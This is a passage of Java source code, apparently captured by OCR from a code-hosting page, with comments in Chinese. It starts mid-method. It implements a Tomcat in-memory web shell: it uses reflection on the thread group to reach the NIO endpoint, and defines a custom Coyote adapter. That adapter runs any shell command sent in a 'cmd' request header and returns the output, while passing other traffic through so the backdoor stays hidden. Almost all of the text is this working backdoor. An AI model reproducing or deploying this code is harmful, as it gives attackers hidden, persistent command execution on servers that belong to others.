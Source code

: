 ```plain
        Thread threads[] = (Thread[]) getField(threadGroup, threadGroup.getClass(), "threads");
        for(Thread thread:threads){
            //不同的环境下可能需要在不同的线程数组元素中取出，所以使用for循环遍历这些线程
            Object o=getField(thread, thread.getClass(), "target");
            if(null!=o&&o instanceof  NioEndpoint.Poller){
                NioEndpoint.Poller target=( NioEndpoint.Poller)o;
                NioEndpoint nioEndpoint = (NioEndpoint) getField(target, target.getClass(), "this$0");
                Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
                for (SocketWrapperBase<NioChannel> c : connections) {
                    Object currentProcessor = c.getCurrentProcessor();
                    if (null != currentProcessor) {
                        return currentProcessor;
                    }
                }
            }

        }
        return new Object();
    }


    public MyAdapter(Connector connector) {
        super(connector);
    }

    public void exec(String p, org.apache.coyote.Response res) {
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
            byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
            res.doWrite(ByteBuffer.wrap(result));
        } catch (Exception e) {
        }
    }


    @Override
    public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) throws Exception {
        System.out.println("success !");
        String p = req.getHeader("cmd");
        if(null!=p){
            exec(p, res);
        }else {
            //调用父类service方法
            super.service(req, res);
        }

    }
}
```
